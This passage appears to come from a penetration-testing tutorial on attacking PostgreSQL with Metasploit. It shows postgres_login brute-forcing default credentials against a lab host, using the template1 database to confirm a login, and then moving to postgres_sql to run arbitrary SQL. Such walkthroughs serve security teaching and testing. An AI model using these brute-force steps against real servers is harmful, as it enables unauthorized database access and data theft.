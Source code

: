 Suppose you are able to correctly guess the username and password of the PostgreSQL database, but not the database name.

In this case, PostgreSQL will return a different code, and Metasploit will tell you that your credentials were good but that your database name was bad:

msf auxiliary(postgres_login) > run

[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: root:@postgresql (Incorrect: Invalid username or password)
[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: postgres:postgres@postgresql (Incorrect: C3D000, Creds were good but database was bad)
[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: postgres:password@postgresql (Incorrect: Invalid username or password)
[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: postgres:admin@postgresql (Incorrect: Invalid username or password)
[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: admin:admin@postgresql (Incorrect: Invalid username or password)
[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: admin:password@postgresql (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

Unfortunately, during a brute-force attack, this information will fly by, and we would never know unless we were logging output to a file, and went back and checked it at some point. Lots of wasted time. Not particularly efficient.

Fortunately, every PostgreSQL instance will have a database named template1, so that should not be a problem.
Correct login credentials

Using the default database name of "template1" with username postgres/password postgres results in success:

msf auxiliary(postgres_login) > run

[-] 10.0.0.27:5432 POSTGRES - LOGIN FAILED: root:@template1 (Incorrect: Invalid username or password)
[+] 10.0.0.27:5432 - LOGIN SUCCESSFUL: postgres:postgres@template1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(postgres_login) >


Admin

Now that you have login credentials for the postgresql server, use them to do admin stuff.
postgres_sql

You can run arbitrary SQL statements with postgres:

msf auxiliary(postgres_login) > use auxiliary/admin/postgres/postgres_sql
msf auxiliary(postgres_sql) > info auxiliary/admin/postgres/postgres_sql

       Name: PostgreSQL Server Generic Query
     Module: auxiliary/admin/postgres/postgres_sql
    License: Metasploit Framework License (BSD)
       Rank: Normal
